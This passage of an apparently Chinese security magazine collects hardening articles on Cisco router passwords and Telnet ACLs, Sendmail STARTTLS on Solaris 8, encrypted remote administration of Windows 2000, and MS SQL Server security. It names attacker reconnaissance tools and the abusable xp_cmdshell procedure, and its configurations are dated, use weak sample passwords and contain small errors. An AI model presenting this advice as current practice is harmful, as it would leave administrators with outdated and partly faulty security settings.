其实这些东西在网上都能轻易地找到，打开 google.com，输入搜索条件“change the * banner”（“*”号由 ftp、SSH、telnet、http 代替），你会发现有好多种方法，希望以上介绍的这些伪装 Linux 的方法能对你有所启发，那么我们的目的就达到了。

## 安全配置 Cisco 路由器

文／卢东祥

随着网络的不断发展，路由器已经逐步走进我们的视野，通过路由器的配置实现网络安全服务也不是什么新鲜事情了，但是路由器自身的安全也成了我们所关注的安全焦点问题。

如我院近期的路由器配置信息总是被修改，其主要修改的是 ACL 访问控制列表。究其原因应该是由于学校限制访问国外站点所致，因为修改了 ACL 访问列表可以增加特权用户，使得修改者的机器不受 ACL 的限制，可以访问任何一个站点，所以如何保障路由器的安全运作也成了我们思考的问题。本文试图针对 Cisco 路由器的安全配置做一点探讨。

### 具体情况分析

从我院路由器被更改情况上来看，应该是校内用户修改的，究其原因应该是密码不小心泄露了。我们学院采用 Cisco 4006 核心交换机配备路由模块，实行了 VLAN 划分。每个系列有相对固定的 IP 地址、子网掩码和固定的网关，在核心交换机上有固定的接口。因此，如果限制只有网络中心的 IP 主机可以 Telnet 的话，不是网络中心的机器也无法使用这边的 IP 地址，也就无法登录了。针对这一具体情况，我们对路由器只要做两个工作就可以彻底解决问题：更改相关口令、限制 Telnet。

### 修改相关口令

在管理接口安全的过程中，我们通过设置各个接口密码的方式来实现安全配置，如控制台口令、Telnet 口令、特权模式一般口令和特权模式秘密口令等。

- 1. 设置控制台（Console）口令：

```bash
router(config)#line console 0
router(config-line)#login
router(config-line)#password cisco_psw1
```

- 2. 设置 vty（Telnet）口令：

```bash
router(config)#line vty 0 4
router(config-line)#login
router(config-line)#password cisco_psw2
```

- 3. 设置特权模式一般口令：

```bash
router(config)#enable password cisco_psw3
```

- 4. 设置特权模式秘密口令：

```bash
router(config)#enable secret cisco_psw4
```

- 5. `"service password-encryption"` 命令：将口令以一种加密的方式存储在路由器的配置文件中，以致在 `"show config"` 中不可见。

- 6. 利用 `enable secret` 命令设置密码，该加密机制是 IOS 采用了 MD5 散列算法进行加密：

```bash
router(config-if)#enable secret level 9 @!79#^&089*
```

设置一个级别为 9 级的“@!79#^&089*”密码，`enable secret` 命令允许管理员通过数字 0-15 来指定密码加密级别，其默认级别为 15。

- 7. 启动服务密码加密过程：

```bash
router(config-if)#service password-encryption
```

### 控制 Telnet 访问

- 1. 登录主机限制

为了保护路由器访问控制权限，必须限制登录访问路由器的主机。针对 VTY（Telnet）端口访问控制的方法，具体配置要先建立一个访问控制列表，如下示例，建立一个标准的访问控制列表（编号从 1—99 任意选择）：

```bash
router(config)#access-list 90 permit 210.28.176.1
router(config)#access-list 90 permit 210.28.176.3
```

该访问列表仅允许以上两个 IP 地址之一的主机对路由器进行 Telnet 访问。注意：创建该列表后必须指定到路由器某个端口上，具体指定方法如下：

```bash
router(config)#line vty 0 4
router(config-line)#access-class 90 in
```

以上配置是入站到 0 端口的 Telnet 示例，出站配置采用 `out`，在这里将不再详细赘述。

- 2. 登录权限限制

为了保护路由器的安全设置，也可以限制其 Telnet 访问的权限，比如通过分配管理密码来限制一个管理员只能使用 `show` 命令，配置如下：

```bash
router(config)#enable secret level 6 123456
router(config-line)#privilege exec level 6 show
```

给其分配密码为 123456，Telnet 进入路由器后，只能用 `show` 命令，其他任何设置权限全部被限制。

- 3. 登录时间限制

我们也可以通过访问时间来限制所有端口的登录访问情况，在超时的情况下将自动断开，下面是一个配置所有端口访问活动 3 分 30 秒的设置示例：

```bash
router(config)#exec-timeout 3 30
```

这样我们从访问口令、登录权限上进行限制，双管齐下来达到我们预期的目的。当然，对于 Cisco 路由器在安全控制方面的技术还很多，比如用过滤器控制数据流、用安全策略控制数据流等，这里就不赘述了。

## 在 Solaris8 上实现 Sendmail 的 TLS 认证

文 / hardi

在没有 VPN 链路的情况下，如果让你在 Solaris 8 上实现 Sendmail 的 TLS 认证加密功能，你会怎么办呢？是觉得不可行干脆放弃，还是接受挑战，亲自实践用事实说话？其实很多事情，只要你开动脑筋，往往就会将不可能变为现实，因为事实为我们提供了证据。

由于公司的 VPN 链路没有架设好，而我们对 TLS 认证又非常重视，必须实现，于是突发奇想，能不能在现在的邮件服务器上实现 TLS 的加密功能呢？乍细想似乎是不可行的，但还是实践一下，用事实来说话吧！

### 准备工作

先看一下我们的 Solaris 服务器吧，telnet 上去，其端口为 25，就可以看到我们服务器的版本，不过更重要的是看我们所使用的 sendmail 的版本（图 1）。

图 1 中很明显地显示出我们的 sendmail 版本是 8.10.2，系统版本是 Solaris 8。想了一下，以现在的 sendmail 版本是不可以支持 TLS 认证的，必须进行修改；同时还要下载一个证书认证的东西：OpenSSL，其下载地址为：

`ftp://ftp.dmz.algx.net/pub/solaris/sunfreeware/sparc/8/openssl-0.9.6g-sol8-sparc-local.gz`

第一步：解压缩

```bash
# gunzip openssl-0.9.6g-sol8-sparc-local.gz
# pkgadd -d ./openssl-0.9.6g-sol8-sparc-local
```

第二步：再将 openssl 的 libraries 文件复制到 `/usr/`

```bash
cp /usr/local/ssl/lib/libssl.so.0.9.6 /usr/lib
cp /usr/local/ssl/lib/libcrypto.so.0.9.6 /usr/lib
cd /usr/lib
chmod 444 libssl.so.0.9.6 libcrypto.so.0.9.6
```

再来看看目录上 `/dev/urandom`，如果没有，我们必须要安装 ANDIrand package 来支持 TLS 加密（注意：如果是 Solaris 8，我们必须先安装 Sun patch 112438 来产生这个设备，可以在 `http://sunsolve.sun.com/` 中找到，然后用 `patchadd` 命令就可以安装好了）。

我们在 `http://www.cosy.sbg.ac.at/~andi/SUNrand/pkg/ANDIrand-0.7-5.8-sparc-1.pkg` 处下载 ANDIrand package，用于模仿 `/dev/random` 和 `/dev/urandom`，来为 sendmail 上的 TLS 提供支持。

```bash
# pkgadd -d ./ANDIrand-0.7-5.8-sparc-1.pkg
# /etc/init.d/random start
```

### 升级 Sendmail

我们这里使用的 Sendmail 版本为 8.12.9，首先下载升级包，其地址为：

`ftp://ftp.sendmail.org/pub/sendmail/sendmail.8.12.9.tar.gz`

第一步：在获得 `sendmail.8.12.9.tar.gz` 后，可通过 gunzip 和 tar 命令将此文件解包。

```bash
# gunzip sendmail.8.12.9.tar.gz
# tar xvf sendmail.8.12.9.tar
# cd sendmail-8.12.9
```

第二步：接着产生 `site.config.m4` 文件。

```bash
# vi devtools/Site/site.config.m4
define(`confSTDIO_TYPE', `portable')
APPENDDEF(`conf_sendmail_ENVDEF', `-DSTARTTLS -DHASURANDOMDEV')
APPENDDEF(`conf_sendmail_LIBS', `-lssl -lcrypto')
APPENDDEF(`confLIBDIRS', `-L/usr/local/ssl/lib')
APPENDDEF(`confINCDIRS', `-I/usr/local/ssl/include')
```

第三步：编译 Sendmail 8.12.9。

```bash
# ./Build -c
```

第四步：为系统添加 smmsp 用户和组，这个账户是用来在 sendmail 下提交邮件的。

```bash
# groupadd smmsp
# useradd -g smmsp smmsp
# passwd -m -s /dev/null smmsp
```

第五步：创建主目录，安装 sendmail。

```bash
# mkdir -p /usr/share/man/cat1
# mkdir /usr/share/man/cat5
# mkdir /usr/share/man/cat8
# ./Build install
```

第六步：配置 Sendmail 8.12.9。

```bash
# cd cf/cf
# cp generic-solaris.mc config.mc
# vi config.mc
```

```m4
divert(0)dnl
VERSIONID(`$Id: generic-solaris.mc,v 8.13 2001/06/27 21:46:30 gshapiro Exp $')
OSTYPE(solaris2)dnl
DOMAIN(generic)dnl
FEATURE(access_db)dnl
FEATURE(blacklist_recipients)dnl
FEATURE(mailertable)dnl
MAILER(local)dnl
MAILER(smtp)dnl
define(`confCACERT_PATH', `/etc/mail/certs')dnl
define(`confCACERT', `/etc/mail/certs/CAcert.pem')dnl
define(`confSERVER_CERT', `/etc/mail/certs/MYcert.pem')dnl
define(`confSERVER_KEY', `/etc/mail/certs/MYkey.pem')dnl
define(`confCLIENT_CERT', `/etc/mail/certs/MYcert.pem')dnl
define(`confCLIENT_KEY', `/etc/mail/certs/MYkey.pem')dnl
define(`confPRIVACY_FLAGS', `authwarnings,goaway,noetrn')dnl
define(`confTO_IDENT', `0')dnl
```

在 FEATURE 中，我们的目的是进行访问控制，define 的前六句是对 TLS 的支持。最后两句是为禁止 EXPN、VRFY、ETRN SMTP 命令和防止邮件服务器发送信息给远程服务器去访问进程号，目的是加快收邮件的速度。

第七步：生成配置文件。

```bash
# sh Build config.cf
# cp config.cf /etc/mail/sendmail.cf
```

第八步：编写 sendmail 启动脚本。

```bash
# vi /etc/init.d/sendmail
****************************************
Add:
#!/sbin/sh

case "$1" in
'start')
    # Start the MTA
    /usr/lib/sendmail -L sm-mta -bd -q1h
    # Start the MSP
    /usr/lib/sendmail -L sm-msp-queue -Ac -q30m
    ;;
```

```bash
' stop')
    pid=`/usr/bin/ps -eo pid,comm | /usr/bin/awk '{ if ($2 == "/usr/lib/sendmail") print $1;}'`
    if test "$pid"
    then
        /usr/bin/kill $pid
    fi
    ;;
*)
    echo "Usage: $0 { start | stop }"
    exit 1
    ;;
esac
exit 0
***************************************
# chown root:sys /etc/init.d/sendmail
# chmod 744 /etc/init.d/sendmail
```

最后的步骤，生成或者申请 CA 证书生成认证中心：

```bash
# mkdir CA
# cd CA
# mkdir certs crl newcerts private
# echo "01" > serial
# cp /dev/null index.txt
# cp /usr/local/openssl/openssl.cnf.sample openssl.cnf
# vi openssl.cnf
...
# openssl req -new -x509 -keyout private/cakey.pem -out cacert.pem -days 365 -config openssl.cnf

生成新的证书：
# cd CA
# openssl req -nodes -new -x509 -keyout newreq.pem -out newreq.pem -days 365 -config openssl.cnf
# cd CA
# openssl x509 -x509toreq -in newreq.pem -signkey newreq.pem -out tmp.pem
# openssl ca -config openssl.cnf -policy policy_anything -out newcert.pem -infiles tmp.pem
# rm -f tmp.pem
```

证书和私钥是在 newreq.pem 中，然后从认证中心来对新的证书进行签名。newcert.pem 里包括的是证书的签字信息，而在 newreq.pem 中的证书还是没有通过签字的。最后编辑 newreq.pem，把其中的未签名的信息删除，只留下私钥就可以了。

接下来就是收尾工作了：

```bash
# cp cacert.pem /etc/mail/certs/cacert.pem
# cp newreq.pem /etc/mail/certs/key.pem
# cp newcert.pem /etc/mail/certs/cert.pem
# cd /etc/mail/certs
# chmod 600 cacert.pem key.pem cert.pem
# chown root cacert.pem key.pem cert.pem
# openssl x509 -noout -in cacert.pem -text
```

最后用下列命令启动 sendmail：

```bash
/etc/init.d/sendmail start
# telnet localhost 25
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 mail.example.net ESMTP Sendmail ...
EHLO localhost
250-mail.example.net Hello ...
250-ENHANCEDSTATUSCODES
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ONEX
250-ETRN
250-XUSR
250-STARTTLS
250-DELIVERBY
250 HELP
```

看到 250-STARTTLS 这句话了吗？这就说明我们成功了。事实胜于雄辩，相信只要大家肯于开动脑筋，积极思考，重要的是敢于实践，而不是仅仅停留在理论上，那么，我们完全有能力将理论上的不可行转变为事实。如果你也遇到了我们上面的类似问题，不妨多试试，一定会成功的。

## Windows 2000 远程控制的 3 种安全解决方法


原文 / by Mark Burnett

翻译 / 大海

图 / heihoo

远程控制是在网络上由一台电脑（主控端 Remote / 客户端 Local）远距离去控制另一台电脑（被控端 Host / 服务器端 Server）的技术。这里的“远程”不是字面意义的远距离，一般指通过网络控制远端电脑。为了使得用户使用远程控制时更加安全、可靠，本文给出了 3 个安全的解决方案。此方案适合 SOHO（Small Office and Home Office）的从业者和中小型公司的远程控制。

### 一、引言

我们设想有一个远程控制方案：一个公司要安置这样一个 IIS Web 服务器，它被放在 300 里以外。服务器是宽带网络、有空调装置、电力控制装置三者结合的一个服务器中心。这个网络服务中心既稳固又价钱合理，但要求客户必须完全远程控制服务器，这种控制是随时的，而不必要经常跑到控制台对服务器进行操作。通常远程控制存在若干问题，最明显的是客户端机器和主机的通信要通过因特网传送，这样交换数据可能被黑客嗅探；还有一个问题就是远程控制本身漏洞（例如它开放的端口）也会导致网络攻击。选择远程控制方案最终的目标就是要保证作为网关的你（仅仅是你）能控制服务器而不会导致其他网络攻击。

远程控制方案安全原则如下：

#### 确保远程控制权限的安全性

远程控制必须能够预防非授权访问。这也就意味着远程管理软件只接受一个小范围 IP 地址的连接，并需要用户名和口令的控制。通过智能卡和客户端验证的引进，远程控制安全性进一步加强。也可以用一些简单、现成的技术来增强，如使用非标准端口来提供服务或者不显示服务旗标的一些安全配置手段。

#### 确保远程交换数据的完整性

在远程控制中要防止数据丢失，我们必须确保远程控制服务器和客户端数据传送的完整性和即时性（也就是说发送的数据是可靠的且不被重发）。

#### 确保敏感数据传输的机密性

对于远程控制，最重要的一点是保证敏感数据在因特网传输的机密性。这就要防止传输的数据报文不会被黑客嗅探。这就要使用强健可行的加密算法进行会话加密。这种加密的优点在于：即便攻击者嗅探到了数据，对嗅探的人也没什么用处。

#### 确保事件日志能够安全审计

良好的安全审计能大幅度提高远程控制的整体安全性，并将安全隐患和技术犯罪扼杀于萌芽状态。审计日志的主要作用在于让管理员了解有哪些人访问了系统、使用了哪些服务等等，这就要求服务器对企图通过技术犯罪入侵的黑客远程控制踪迹有一个足够充分、足够安全的日志记录。

### 二、Windows 2000 远程控制的 3 种安全解决方法

尽管远程控制 Windows 2000 有很多种方法，并不是所有的软件都符合上面的远程控制方案安全原则，我们可以通过组合不同的软件来完成我们所需要的远程控制解决方案。

下面的一些例子就是通过对 Windows 2000 自带服务或者第三方软件组合使用来达到安全可靠的远程控制。

#### 方法 1：Windows 2000 终端服务结合 Zebedee 软件的使用

终端服务是在 Windows 2000 中提供的允许用户在一个远端的 Windows 2000 服务器上执行基于 Windows 的应用程序的技术。终端服务应该是 Windows 2000 服务器进行远程管理使用最多的办法，这和它的使用便利性以及其属于 Windows 内置的服务同时带来的其他好处有关。

Windows 2000 服务器自带的认证系统。但是这个终端服务程序本身有一些缺陷：它无法对客户连接 IP 作出限制的机制；它没有明确提出改变缺省监听端口的办法；它的日志审计功能，也就是说没有日志记录工具。基于本文开头提到的远程控制方案的安全原则，单独使用终端服务并不是很安全的。但我们可以通过与 Zebedee 软件结合，终端服务就可以实现上面的远程管理安全需要。

Zebedee 的工作原理如下：Zebedee 监听本地指定的应用，将要传输的 TCP 或 UDP 数据进行加密、压缩，Zebedee 客户端与服务器端之间建立了一个通信隧道；压缩、加密的数据就在这个通道上传输；可以令多个 TCP 或 UDP 的连接建立在同一个 TCP 连接之上。

通常使用 Zebedee 分以下两步：第一步：配置 Zebedee 的监听端口。第二步：在客户机上配置监听 3389 端口并且使它重定向到你服务器上 Zebedee 的监听端口。

```bash
c:\>zebedee -s -o server.log

C:\>zebedee 3389;serverhost:3389
```

这样，Zebedee 就开始启动，它与终端服务的结合使用原理如图 1 所示。从图 1 中可以看到，当开启终端服务的客户端进程（目标 TCP 端口：3389）时，紧接着本地 Zebedee 客户端同时开始截取数据包；Zebedee 将数据加密、压缩后发给 Zebedee 服务器（这里 Zebedee 服务缺省端口 11965）；Zebedee 服务器接到后再解压缩、解密传递给服务器的服务（服务端口：TCP：3389）。在这里，服务器上的终端服务好像是与本地的终端服务客户端进行的连接，但实际上所有传递的数据包都经过了一个加密的隧道。此外，Zebedee 还可以通过配置文件来实现身份认证、加密、IP 地址过滤以及日志的功能。


一个配置良好的 Zebedee 和 Windows 2000 的终端服务相互结合，可以构建一个十分安全的远程管理系统。鉴于一般终端服务不提供文件传输的功能，所以需要考虑其他的办法。我们可以使用 FTP 服务器。但是 FTP 服务器通常被认为是不安全的，它也可以通过 Zebedee 的加密隧道增强其安全性，方法是直接在终端服务上传输数据。这种做法比较麻烦，但 Zebedee 帮助文件已做了详细的说明。这里推荐两个第三方的解决方案，一个是 AnalogX 的 TSDropCopy（http://www.analogx.com/contents/download/system/tsdc.htm），另一个是 WTS FTP（http://www.ibexsoftware.com/about.asp）。

总的来说，Windows 2000 终端服务是一个最方便和最快捷的方法，但就其本身的安全性来说，我们通过 Zebedee 与终端服务的结合，可以说是实现了一个方便、快捷、安全的解决方案。

#### 方法 2：在 SSH 上的 VNC

VNC 是一个类似于终端服务的远程管理软件，和终端不同的地方有以下几点：

- VNC 是和当前正在登录的用户共用同一个会话，你可以和当前登录的用户同时操作；
- VNC 客户端适用于不同的平台，包括 Windows CE 和 Java；
- VNC 能够限制 IP 访问；
- 在客户端和服务端没有经过加密。

对于 VNC 的这些差别，我们意识到使用 VNC 的好处，但如果单独使用的话仍然有一些安全隐患。最大的问题是 VNC 的数据传输没有经过加密。我们可以配合使用 SSH 加密来弥补这一缺陷。通常使用 OpenSSH（http://www.networksimplicity.com/openssh）。OpenSSH 是一个理论上类似于 Zebedee 的软件。但是它更广泛地被应用于 SMTP、HTTP、FTP、POP3 和 Telnet 传输数据包加密。和 Zebedee 一样，它是通过端口通信隧道，不同的是 SSH 已经成为广大用户公认并且广泛使用的加密协议。

从概念上来说，OpenSSH 转发数据包和 Zebedee 相似。我们通常可以配置服务器的监听端口（通常 OpenSSH 缺省端口是 22），然后就可以连接到 SSH 使用的端口。一个 SSH 客户端实质上是一个加密的 Telnet 远程访问控制提示符。但 SSH 也能用同样一个给其它的协议连接进行加密。我们也有下面两个步骤实现在 SSH 基础上的 VNC：

第一步：`C:\>ssh -L 5901:serverhost:5900 serverhost`

这将创建一个 SSH 服务器端口对 VNC 在本地和服务器数据包之间的转发。

第二步：`C:\>vncviewer :1`

图 2 实际上是一个 VNC 会话通过 SSH 加密通道进行传送（这种传送，通常说来是在 VNC 服务器和客户端之间进行）。


图 2 通过 SSH 基础上的 VNC 远程控制包传输

假如你使用多客户端平台，你能够使用在 SSH 基础上的 VNC 远程控制，因为 VNC 和 SSH 都支持大多数常用的操作系统。

#### 方法 3：VPN 技术应用在 Windows 2000 远程控制

我们可以通过 Windows 2000 Server 自带管理工具远程交互管理，比如客户机可以通过映射服务器的驱动器。当然也可以使用其他的网络服务达到远程控制。Windows 2000 Server 远程管理是通过打开连接服务器的 445 端口，通过这个端口对交换数据进行转发。但是在客户和服务器之间的数据没有经过加密，这就会导致一些网络恶意嗅探，但是我们可以使用另外一些加密隧道技术。

网络隧道技术指的是利用一种网络协议来传输另一种网络协议，它主要利用网络隧道协议来实现这种功能。在这种情况下，有一个好的解决方案：VPN 技术在 Windows 2000 远程控制。它就是利用 L2TP 隧道协议来对交换数据进行传输。这样安全性就大大加强。

VPN 技术在 Windows 2000 远程控制的应用有如下优点：

- VPN 致力于为网络提供整体的安全性，是性价比较高的安全方式；
- VPN 的管理性能提高得很快，简单厂商的环境，管理工作站可以直接提供多单元的支持；
- VPN 使用 L2TP 加密通道，是虚拟专用拨号网络协议；
- VPN 能够限制 IP 访问；
- VPN 可以在网络连接中透明地配置，而不需要修改网络或客户端的配置。

下面我们要做的工作就是配置一个远程客户端与一个 VPN Server 之间的连接。

##### VPN 服务器的配置

首先打开“路由和远程访问”，右击要配置的服务器 -> “配置并启用路由和远程访问”，根据说明我们能够创建一个“虚拟专用网络（VPN）服务器”。

注意：VPN Server 监听的是 1723 端口，如果不期望别人看到这个开放的端口，我们可以对客户的连接 IP 地址进行限制。

##### 客户端的配置

右键点击“网上邻居”，选择“属性”。从弹出的窗口中点击“新建连接”。根据提示，我们完成相关的设置并且连接到服务器上。

完成服务器和客户端的配置之后，我们能看见一个 VPN 连接图标。双击该图标，根据提示填入用户名和密码，就能连接到服务器。这时就有一个新的网络连接，这种网络连接跟我们使用网络适配器和光缆直接连接到服务器效果是一样的，不同的地方就是它是通过加密通道进行传输交换数据的。

对于任何网络连接，我们要考虑到这样一个因素：你所用的网络协议是否带有包过滤技术。注意你的连接有可能被黑客利用，入侵到你的电脑，从而威胁到你的服务器，进而入侵你的内部网络。这些风险我们不得不考虑到。

通过 VPN，我们能够远程管理服务器，就像在局域网里面一样简单。由于不正确的配置，可能导致一些安全因素。但是 VPN 技术应用在 Windows 2000 远程控制，是迄今为止最便捷的远程控制方案。只要我们正确配置服务端和客户端，安全隐患是可以避免的。

### 三、其他方法

本文中，我们提到 3 种行之有效和有安全保障的远程控制解决方案。当然方法不止这些。我们只想借此来帮助大家了解远程管理安全方面值得考虑的因素和解决的方法思路。如果你现在使用一个远程管理工具，你可以检查一下你的软件是否满足了上面所说的远程管理的安全性需要。如果没有，你就需要考虑去找些其他软件增强它的安全性。使用加密隧道及对防火墙进行合理配置是实现一个安全的远程管理解决方案的关键。

数据库的应用同操作系统的超级管理员密切相关，但目前数据库的安全性尚未与服务器系统的安全性等同起来。网管似乎有一种错误的认识，就是操作系统和网络的安全得到保证后，那么这个平台就是安全的了。而数据库管理员又不重视其安全性，鉴于 MS SQL Server 在很多企业电子商务使用的普及程度，数据库的安全问题显得比较严峻。本文讨论了如何制定 MS SQL Server 系统的安全策略，并阐述了一些常见的安全问题以及解决方法。

## MS SQL Server 系统安全检验尚不完全指南


### 背景

安全专家认为，目前普遍存在这样一种现象：网络和操作系统的安全被认为非常重要，但是却不这样对待数据库服务器。实际上，数据库应用程序同操作系统的超级管理员密切相关。一般来说，大型网络数据库都有以下这些特点：

- 用户账户和口令
- 认证系统
- 授权模块、数据对象的许可控制
- 内置命令
- 特定的脚本和程序语言（一般由 SQL 派生）
- 网络协议
- 中间件
- Service Pack 程序包
- 数据库管理和开发工具
- 由数据库管理员（DBA）全天工作来管理数据库系统

MS SQL Server 在很多企业、电子商务网站的信息化平台得到了普遍的应用。很多网络数据库的应用都是依赖 MS SQL Server 2000 支撑的。我们已经知道，MS SQL Server 和其他大型网络数据库一样，都是属于“端口”型的数据库，这意味着居心不良的人可以使用分析工具试图连接到数据库上，尝试绕过服务器操作系统的安全机制，从而得以进入系统，破坏和窃取机密的数据资料，严重情况下会危及整个系统的安全。

2002 年下半年在黑客们的扫描活动中，针对 MS SQL Server 的扫描就占据了 29.5%。据赛门铁克 2002 年度互联网安全威胁报告，在过去的一年里，赛门铁克记录了 65 个以上 SQL 数据库的漏洞，涉及的平台有 Microsoft、Oracle 和 IBM 的数据库产品。其中许多漏洞在性质上极为严重，因为这些漏洞能使攻击者完全控制数据库。2002 年，Microsoft 发布了 11 个安全公告，Oracle 发布了 20 个安全公告。

由于设计不严密的、使用数据库作为后台的 Web 应用程序的不断增加，使得数据库的安全威胁日趋严重。对于许多需要远程访问敏感客户和企业数据的公司而言，这将大大增加其面临的风险。

数据库数据的丢失以及数据库被非法用户的侵入，使得数据库管理员身心疲惫不堪。本文围绕 MS SQL Server 2000 数据库的安全性问题提出了一些安全性策略，希望对数据库管理员有所帮助，不再夜夜做噩梦。

本文将列举常见的入侵手段并给出相应的防范对策。

在进行 SQL Server 的安全配置之前，必须先对操作系统、网络进行必要的安全配置，并对数据库应用程序进行必要的安全审核，如 ASP、PHP、Perl 等脚本。这些基于数据库的 Web 应用程序常出现安全隐患，对于脚本主要是过滤问题以及源代码泄露问题。关于这些问题已经有很多阐述，因已超出本文范畴，故不赘述。

### 保护 SQL Server 的网络连接

TCP 1433 是 SQL Server 在 TCP/IP 套接字网络层上的默认监听端口。到 http://premium.microsoft.com/msde/msde.asp 下载免费 MSDE（Microsoft 数据引擎），其中的工具 osql.exe 就可以连接到 SQL Server。另外，这样的工具第三方厂家也出了很多，可以在边界路由器或防火墙的日志中检查对 1433 端口进行的扫描；如果发现有此类记录，则肯定有人在试图寻找 SQL Server。我们也可以在配置 SQL Server 的时候改变其默认端口，但 SQL Server 还有一个微软未公开的端口 UDP 1434。端口 1433 可以更改，但端口 1434 无法更改。黑客可以使用 SQLPing 工具（包含在安全焦点的 SQLTools 工具包中，地址为 http://www.xfocus.net/tools/200208/351.html）来搜索 SQL Server，该工具是利用 SQL Server 2000 内部的发现机制来查询有关服务器连接能力的详细信息，就是在 UDP 端口 1434 上进行操作的。使用该工具不仅能找到 SQL Server 实例，而且还能查到所使用的 TCP 端口。如果 SQL Server 是基于 Web 前端程序的数据存储，应该使用防火墙确保除了 Web 服务器之外的任何计算机与 SQL Server 隔开。

在实例属性中选择 TCP/IP 协议的属性，选择隐藏 SQL Server 实例，就可以禁止对试图校验网络上现有 SQL Server 实例的客户端所发出的广播作出响应。然后，在实例属性选择网络配置中的 TCP/IP 协议属性中，将 TCP/IP 使用的默认端口 1433 更改为其他端口，同时对路由器或防火墙日志进行相应设置，并在 Windows 2000 上通过 IPSec 过滤掉 1434 端口的 UDP 通讯。这样一来，就可以尽可能隐藏 SQL Server。

### 账号安全策略

默认的 SQL Server 超级管理员账号 sa 的口令是空的，必须高度重视口令的健壮性。SQL Server 有两种安全模式：Windows 认证模式、SQL Server 和 Windows 认证模式（混合模式）。

Windows 认证模式使用的是 NT 密码，有助于减轻管理负担。这是微软推荐的安全模式，也是 SQL Server 2000 的默认模式。要使用 Windows 认证方法连接到 SQL Server，连接字符串为：

```text
"Provider=SQLOLEDB;Data Source=my_server;Initial Catalog=my_database;Integrated Security=SSPI"
```

混合模式使用用户名和密码进行认证，用于不支持 NT 认证的平台，如 Windows 98/Me。要使用本地登录连接到 SQL Server，连接字符串为：

```text
"Provider=SQLOLEDB;Data Source=my_server;Database=my_database;User ID=my_user;password=my_password;"
```

应尽可能修改 SQL Server 的认证模式，使用户不能通过账号和口令组合来登录，这样就无需在连接字符串或 C/S 应用程序中嵌入账号和密码。

和 Windows NT/2000 不同，SQL Server 不能更改 sa 账户名，也不能删除这个账户名，故应给此账户最周密的保护，并新建一个与 sa 一样权限的超级数据库管理员账户来管理数据库。平时要定期检查不符合密码要求的账号并定期修改其口令，可以用 SQL 语句来检查：

```sql
Use master
Select name, password from syslogins where password is null
```

### 最小权限原则

通常情况下，数据库应用只局限于查询、修改等简单功能，应根据实际需求分配相应权限的账号。花费一些时间创建一个低权限用户以供日常连接操作使用，如查询功能就分配能够 `select` 的 Public 账号即可。这种做法值得推荐。当有人试图攻击服务器时，会由于权限不足而失败。

### SQL Server 日志策略

SQL Server 的认证日志功能很弱，默认情况下没有开启。并且启用后只能记录特定账号的失败或成功登录事件，并没有关于源应用程序、主机名称、IP 地址、netlib 或任何其他有助于确定攻击发源地的信息。

开启认证日志的方法是使用 Enterprise Manager 在 Security 标签设置服务器属性，或者通过 Query Analyzer 或 osql.exe 发出如下命令：

```sql
master..xp_instance_regwrite N'HKEY_LOCAL_MACHINE',N'SOFTWARE\\Microsoft\\MSSQLSERVER',N'AuditLevel',REG_DWORD,3
```

开启认证日志功能后，应经常检查是否有可疑登录事件发生，也可使用 DOS 命令查询：

```bat
Findstr /c:"登录" "d:\microsoft SQL Server\MSSQL\LOG\*.*"
```

SQL Server 2000 提供了 C2 级日志功能。如需启用 C2 审核，请在 Query Analyzer 或 osql 中依次执行下面的命令：

```sql
Exec sp_configure 'C2 Audit Mode', 1
Go
Reconfigure
Go
```

由于 C2 审核会产生大量信息，所以前提是有足够大的磁盘空间来容纳这些信息。

### 对数据库进行加密

SQL Server 2000 使用 Tabular Data Stream 协议进行网络数据交换，对所有类型的连接提供了 SSL 支持。如果不加密，所有网络传输都是明文的。当用户使用 SQL Server 登录认证时，如果这时有人用嗅探器等工具监听客户端和服务器之间的通信，很容易发现密码、数据库内容等。SQL Server 2000 只使用了简单的 XOR 方法来隐藏密码。

为了避免被监听，这里有 3 个方案可选：

- **启用多协议 netlib 并启用加密**：该方案易于实现，但只能对称加密，并需要 Windows 认证。
- **实现 IPSec**：该方案能保护主机之间的所有通信，不需对 SQL Server 作任何更改，但需要数据库管理员和开发人员进行复杂操作。
- **启用 SSL 加密协议**：该方案加密强度高，能够在所有 netlib 上工作，但对证书部署和管理要求较高。

### 加密数据库

SQL Server 不支持对个别字段加密。Microsoft 有一个工具 CryptoAPI，可以实现将加密后的数据保存在数据库中的功能。如果希望对数据库本身进行加密来避免其他用户访问，可以使用 Windows 2000 内建的 EFS 支持来做到这一点。

### 及时安装 SQL Server SP

对于 SQL Server 存在的漏洞，如扩展存储过程参数解析漏洞、存储过程权限漏洞、SQL 违规查询漏洞等，多数都可以打上 SP 修正包来解决问题，所以要密切留意 Microsoft 公开的修正包和补丁包。

最新的补丁：  
http://www.microsoft.com/sql/default.asp

并关注 SQL Server 的安全问题：  
http://www.microsoft.com/technet/treeview/default.asp?url=/technet/security/current.asp

### 用工具检测和监视 SQL Server

微软公司发布了 SQL 安全检查程序，用于定位和禁用容易受 SQL 蠕虫王攻击的、没有安装 02-039 或更新安全修正包的 SQL Server 2000 和 MSDE 2000 实例。

另外，微软也发布了 SQL Server 扫描工具（Sqlscan.exe），可以定位 NT4、2000、XP Professional 或更高版本上的 SQL Server 2000 或 MSDE 2000。

上述工具可以到微软网站下载。但这些工具有时也是双刃剑，如果落入居心不良的人手中，也会成为踩点的好工具。

使用警报功能监视潜在恶意行为。在 SQL Server 的关键事件上设置警报功能，关键事件可以是登录失败等相关信息。设置警报功能可以使管理员及时获知潜在恶意行为。

### 管理扩展存储过程

由于存储过程对 SQL 命令进行预编译、参数化输入，允许数据库开发人员赋予过程的执行访问而无须赋予对过程中引用对象的直接访问，对应用程序的性能和安全带来了极大影响。实际上，在很多应用程序中，用户在任何表格上没有权限，但对一组选定的存储过程能够执行访问。一般用不到多少系统存储过程，而 SQL Server 如此多的存储过程是用来适应广大用户需求的，因此不必要的存储过程尽可以删除。有些系统存储过程很可能被人利用来提升权限或进行破坏。

为了删除一个扩展存储过程，如 xp_cmdshell，输入如下 T-SQL 命令：

```sql
use master
sp_dropextendedproc 'xp_cmdshell'
```

如果要恢复此存储过程，执行如下命令：

```sql
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```

用户不应通过 SQL Server 对低层操作系统执行命令。下面列出一些扩展过程，可以考虑删除：

| 列1 | 列2 | 列3 |
|---|---|---|
| Sp_bindsession | Xp_deletemail | Xp_readerrorlog |
| Sp_cursor | Xp_dirtree | Xp_readmail |
